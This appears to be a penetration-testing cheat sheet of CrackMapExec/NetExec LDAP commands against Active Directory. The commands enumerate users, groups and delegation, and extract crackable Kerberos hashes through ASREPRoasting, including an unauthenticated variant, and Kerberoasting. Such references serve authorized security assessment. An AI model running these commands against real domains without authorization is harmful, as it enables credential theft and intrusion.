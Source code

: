 # cme (LDAP)

% cme, crackmapexec, Active Directory, nxc, netexec, ldap

## Enumerate users descriptions
#assessment/AD #attack_type/Dump #port/389 #port/639 #protocol/ldap #access/Domain_user 

```bash
cme ldap <dc-ip> -u <user> -p <password> -M get-desc-users
```

## Enumerate domain groups
#assessment/AD #attack_type/Dump #port/389 #port/639 #protocol/ldap #access/Domain_user

```bash
cme ldap <dc-ip> -u <user> -p <password> --groups
```

## ASREPRoast enum without authentication
#assessment/AD #attack_type/Dump #port/389 #port/639 #protocol/ldap #access/Anonymous 

User can be a wordlist too (user.txt)
Hashcat format  -m 18200 

```bash
cme ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc-ip>
```

## ASREPRoast enum with authentication
#assessment/AD #attack_type/Dump #port/389 #port/639 #protocol/ldap #access/Domain_user

Hashcat format  -m 18200 

```bash
cme ldap <ip> -u <user> -p <password> --asreproast ASREProastables.txt --kdcHost <dc-ip>
```

## Kerberoasting
#assessment/AD #attack_type/Dump #port/389 #port/639 #protocol/ldap #access/Domain_user 

Hashcat format  -m 13100

```bash
cme ldap <ip> -u <user> -p <password> --kerberoasting kerberoastables.txt --kdcHost <dc-ip>
```

## Unconstrained delegation
#assessment/AD #attack_type/Dump #port/389 #port/639 #protocol/ldap #access/Domain_user 

List of all computers and users with the flag TRUSTED_FOR_DELEGATION.

```bash
cme ldap <ip> -u <user> -p <password> --trusted-for-delegation
```
